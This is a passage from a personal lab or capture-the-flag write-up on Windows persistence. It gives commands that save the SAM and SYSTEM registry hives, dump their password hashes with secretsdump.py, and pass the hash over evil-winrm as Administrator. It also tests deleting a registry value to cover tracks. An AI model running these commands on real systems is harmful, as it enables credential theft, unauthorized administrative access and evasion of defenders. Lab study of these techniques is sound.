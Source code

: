 ##### Checking the user's group memberships:

![](/assets/img/Pasted image 20230107140518.png)

	- There's no modification done with the user's group membership!

##### Capture the flag!

![](/assets/img/Pasted image 20230107141947.png)

### Recovering the password hashes from the SAM and connect back with the Administrator user
- ##### Making a backup of SAM and SYSTEM files and download them on the attacker's machine:
`> reg save hklm\system system.bak`
`> reg save hklm\sam sam.bak`
`> download system.bak`
`> download sam.bak`

	- It takes a while...

![](/assets/img/Pasted image 20230106115915.png)

##### Dumping password hashes for all users using `secretsdump.py` or other similar tools:
- On another tab in the attacker's machine, execute this:
`$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL`

![](/assets/img/Pasted image 20230106120234.png)

##### Perform Pass-The-Hash to the victim's machine with Admin privileges:
`$ evil-winrm -i 10.10.151.140 -u Administrator -H <hash-dumped>`

`$ evil-winrm -i 10.10.151.140 -u Administrator -H f3118544a831e728781d780cfdb9c1fa`

![](/assets/img/Pasted image 20230106120611.png)

	- Notice that the hash used is the latter part of the colon:

![](/assets/img/Pasted image 20230106120631.png)

### Hypothesis 1: What if during our connection with the `thmuser2` which is one of the account used for persistence, `LocalAccountTokenFilterPolicy` is deleted say, by the blue team, will the connection in WinRM stays or does it disconnects this `thmuser2`?

	- If it doesn't disconnect even after removing the registry key, we can delete this value to cover our tracks and still get the persistence with this user since this registry key doesn't exist to begin with.
	- IT DOESN'T DISCONNECT!
